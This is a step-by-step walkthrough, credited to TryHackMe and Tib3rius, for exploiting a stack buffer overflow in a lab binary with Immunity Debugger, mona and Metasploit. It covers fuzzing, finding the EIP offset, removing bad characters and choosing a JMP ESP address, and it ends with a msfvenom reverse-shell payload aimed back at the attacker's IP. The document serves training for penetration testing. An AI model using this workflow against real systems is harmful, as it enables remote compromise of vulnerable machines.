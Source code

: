 This step by step for buffer overflow is obtained from TryHackMe platform under Offensive Pentesting (Buffer Overflow Prep).

Credits to Tib3rius.


## Steps for `Buffer Overflow`

1. Set up !Mona on Debugger

```
!mona config -set workingfolder c:\mona\%p
```

2. Change the IP, what is to be sent, port on fuzzer.py. Once changed, run fuzzer.py

```
python fuzzer.py
```

Make a note of the largest number of bytes that were sent.

3. Run the following command on Kali. Input the number of bytes before the application crash, plus another 400 bytes.

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <number of bytes>
```

4. Copy the string that is generated from the above command and paste it under payload in the exploit.py. Run exploit.py.

```
python exploit.py
```

5. In the Debugger, use the following command. The number of bytes will be the number that is used to generate the pattern.

```
!mona findmsp -distance <number of bytes>
```

The position where EIP is will be on:

```
EIP contains normal pattern : ... (offset XXXX)
```

Update your exploit.py script and set the offset variable to this value (was previously set to 0). Set the payload variable to an empty string again. Set the retn variable to "BBBB".

Restart oscp.exe in Immunity and run the modified exploit.py script again. The EIP register should now be overwritten with the 4 B's (e.g. 42424242).

6. Generate a bytearray using the following command on debugger:

```
!mona bytearray -b "\x00"
```

This will be used to compare after the exploit is run.

7. Using the byte_generater.py, generate the characters to test the bad characters for the exploit.

```
python byte_generater.py
```

Copy the characters and paste them under `payload` in `exploit.py`.

8. Run exploit.py. The application will crash. Once the application has crashed, take note of the ESP register. Run the following on Debugger, where the address is the ESP regsiter location:

```
!mona compare -f C:\mona\oscp\bytearray.bin -a <address>
```

A popup window should appear labelled "mona Memory comparison results". If not, use the Window menu to switch to it. The window shows the results of the comparison, indicating any characters that are different in memory to what they are in the generated bytearray.bin file.

9. Run `Step 6` again, adding in the bad characters one by one. Remove the bad characters from payload variable in `exploit.py`. Run exploit.py. The application will crash

Once the application has crashed, run `Step 8` again to compare whether there are still bad characters. Repeat the badchar comparison until the results status returns "Unmodified". This indicates that no more badchars exist.

10. With the application running, run the following command, to include the bad characters found:

```
!mona jmp -r esp -cpb "\x00\x07"
```

This is to find any `JMP ESP` that do not have the bad characters indicated.

11. Choose an address and update your exploit.py script, setting the "retn" variable to the address, written backwards (since the system is little endian). For example if the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your exploit.

12. Generate a metersploit payload, using Kali IP and include bad characters, in the command below: 

```
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f c
```

Copy the payload and paste it under the payload in `exploit.py`.

13. Add in padding in `exploit.py`

```
padding = "\x90" * 16
```

14. Start the msfconsole listener and run the exploit. 










